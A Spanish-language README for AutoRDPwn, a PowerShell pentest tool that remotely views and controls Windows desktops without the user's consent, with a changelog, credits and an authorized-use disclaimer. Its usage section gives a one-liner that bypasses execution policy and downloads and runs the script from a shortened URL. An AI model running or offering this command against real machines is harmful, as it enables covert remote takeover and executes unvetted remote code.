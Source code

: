 # AutoRDPwn: The Shadow Attack Framework

![autordpwn](https://user-images.githubusercontent.com/34335312/44861972-01bdbe80-ac7a-11e8-92e1-bce9d669b6d5.png)

AutoRDPwn es un script creado en PowerShell para automatizar el proceso de visualización y control del escritorio de forma remota y sin consentimiento del usuario en equipos Windows. Para su correcto funcionamiento es necesario cumplir algunos requisitos que se describen en la guía de uso.


# Cambios

## Versión 2.6
• Correción de errores

• Auto-detección de Id de sesión

## Versión 2.4
• Nuevo tipo de ataque disponible: ScheduleTask

## Versión 2.2
• Mejoras y cambios de código

• Añadida la opción de visualizar o controlar el equipo remoto

• Eliminado el popup de PsExec con el argumento -accepteula

## Versión 2.0
• Primera release pública


# Uso
Ejecución en una línea:

powershell -ExecutionPolicy Bypass "iwr https://goo.gl/HSkAXP -Outfile %TEMP%\AutoRDPwn.ps1 ; %TEMP%\AutoRDPwn.ps1"

La guía detallada de uso se encuentra en: https://darkbyte.net/autordpwn-the-shadow-attack-framework


# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
• Mark Russinovich por su herramienta PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• Marc R Kellerman por su herramienta Invoke-CommandAs -> https://github.com/mkellerman/Invoke-CommandAs

• Stas'M Corp. por su herramienta RDP Wrapper -> https://github.com/stascorp/rdpwrap

# Contacto
Este software no ofrece ningún tipo de garantía. Su uso es exclusivo para entornos educativos y/o auditorías de seguridad con el correspondiente consentimiento del cliente. No me hago responsable de su mal uso ni de los posibles daños causados por el mismo.

Para más información, puede contactar a través de info@darkbyte.net
